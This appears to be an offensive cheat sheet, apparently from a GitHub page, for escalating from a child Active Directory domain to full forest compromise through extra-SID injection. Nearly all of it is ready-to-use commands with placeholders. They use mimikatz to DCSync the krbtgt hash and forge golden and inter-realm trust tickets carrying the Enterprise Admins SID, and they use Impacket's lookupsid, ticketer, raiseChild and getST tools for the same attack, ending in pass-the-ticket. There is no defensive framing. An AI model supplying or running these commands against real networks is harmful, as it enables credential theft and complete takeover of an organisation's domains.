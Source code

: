 # Child Domain to Forest Compromise - extra SIDs (parent/child) (child/parent)

#### 1) Golden Ticket

    Get-DomainSID -Domain DOMAIN (Powerview)

    Get-DomainSID -Domain TARGET_DOMAIN (Powerview)

    mimikatz lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt

    mimikatz kerberos::golden /user:Administrator /krbtgt:KRBTGT_HASH /domain:DOMAIN /sid:USER_SID /sids:ROOT_DOMAIN_SID-519 /ptt

## OR

    lookupsid.py -domain-sids DOMAIN/USER:'PASSWORD'@DC_IP 0

    ticketer.py -nthash CHILD_KRBTGT_HASH -domain-sid CHILD_SID -domain CHILD_DOMAIN -extra-sid PARENT_DOMAIN_SID-519 goldenuser

## OR

    raiseChild.py DOMAIN/USER:'PASSWORD'

#### 2) inter_realm_ticket TRUST (parent/child) (child/parent)

    mimikatz lsadump::trust /patch

    mimikatz kerberos::golden /user:Administrator /domain:DOMAIN /sid:DOMAIN_SID /aes256:TRUST_KEY_AES256 /sids:TARGET_DOMAIN_SID-519 /service:krbtgt /target:TARGET_DOMAIN /ptt

## OR

    ticketer.py -nthash TRUST_KEY -domain-sid CHILD_SID -domain CHILD_DOMAIN -extra-sid PARENT_DOAMIN_SID-519 -spn krbtgt/PARENT_DOMAIN goldenuser

    getST.py -k -no-pass -spn cifs/DC_FQDN PARENT_DOMAIN/trustfakeuser@PARENT_DOMAIN -debug

### With these attacks, we perform Pass-the-Ticket
